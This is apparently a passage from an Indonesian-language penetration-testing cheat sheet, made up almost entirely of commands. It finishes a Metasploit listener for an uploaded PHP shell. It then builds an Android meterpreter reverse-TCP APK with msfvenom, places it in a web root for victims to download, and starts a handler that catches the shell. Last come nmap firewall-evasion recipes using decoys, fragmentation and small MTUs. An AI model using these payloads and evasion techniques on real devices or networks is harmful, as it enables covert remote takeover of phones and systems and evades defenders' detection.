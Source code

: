 ```
```
```
set lport 4444
```
```
exploit
```

Masuk Browser jalankan file php yg berhasil di upload tadi di URL

Remote Android
```

$ msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.43.215 LPORT=4444 AndroidMeterpreterDebug=true AndroidWakelock=true R > /var/www/html/new.apk
```
```
$ sudo service postgresql start
```
```
$ msfconsole
```
```
use exploit/multi/handler 
set payload android/meterpreter/reverse_tcp 
set lhost 192.168.x.x
exploit
```

### Nmap

#### Firewall Evasion (Decoys,MTU & Fragmentation)
```
nmap -sS -sV -F -D RND:3 nmap.scanme.org
```
```
nmap -sS -sV -F -f -D 127.0.0.1 nmap.scanme.org
```
```
nmap -sS -sV -F -f --send-eth -D 127.0.0.1 nmap.scanme.org
```
```
nmap -sS -sV -F --mtu 16,24,32 -D 127.0.0.1 nmap.scanme.org
```
```
nmap -sS -sV -F --mtu 16 --send-eth -D 127.0.0.1 nmap.scanme.org
```

#### Scan Timing Performance
scan timing
```
nmap -sS -p21-80 -T1 nmap.scanme.org
```
```
nmap -Pn -sS -p21-80 -T1 nmap.scanme.org
```
parallelism
```
nmap -sS -p21-433 --min-parallelism 10 nmap.scanme.org
```
```
nmap -sS -p21-433 --max-parallelism 1 nmap.scanme.org
```
host group sizes
```
nmap -sS -F --min-hostgroup 30 127.0.0.1/24
```
```
nmap -sS -F --max-hostgroup 5 127.0.0.1/24
```